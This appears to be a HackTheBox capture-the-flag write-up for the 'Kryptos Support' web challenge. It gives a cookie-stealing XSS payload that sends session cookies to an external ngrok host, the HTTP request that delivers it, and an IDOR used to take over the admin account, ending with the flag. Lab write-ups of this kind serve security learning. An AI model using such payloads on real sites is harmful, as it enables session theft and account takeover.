 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - IDOR
  - insecure-password-change
  - XSS
---
```

>[!quote]
> *The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?*****


# Set up

No setup, the challenge is started on-demand.

# Information Gathering

- Browsed the home page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007.png)
    
- Browsed the login page:
    
    ![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%201.png)
    

# The Bug

- Cross Site Scripting
- IDOR

# Exploitation

XSS payload:

```jsx
<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>
```

Sent the payload to moderators and leaked a cookie:

```
POST /api/tickets/add HTTP/1.1
Host: 157.245.33.77:30340
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://157.245.33.77:30340/
Content-Type: application/json
Origin: http://157.245.33.77:30340
Content-Length: 101
Connection: close

{"message":"<img src=x onerror=this.src='https://bfd1-93-51-54-187.eu.ngrok.io/?'+document.cookie;>"}
```

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%202.png)

```
?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3MjE3MDN9.arGluuqoLIj6d8GVrrKd_i1ECdd5mPGHaf4NSrCe3-g
```

Decoded JWT token:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%203.png)

Logged in using the leaked session cookie:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%204.png)

Changed moderator password:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%205.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%206.png)

Exploited an Insecure Direct Object Reference to change admin password and login:

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%207.png)

![Untitled](../../zzz_res/attachments/Kryptos%20Support%201b16a44d24a142dfb8da5d4ea11f1007%208.png)

# Flag

>[!success]
>`HTB{x55_4nd_id0rs_ar3_fun!!}`

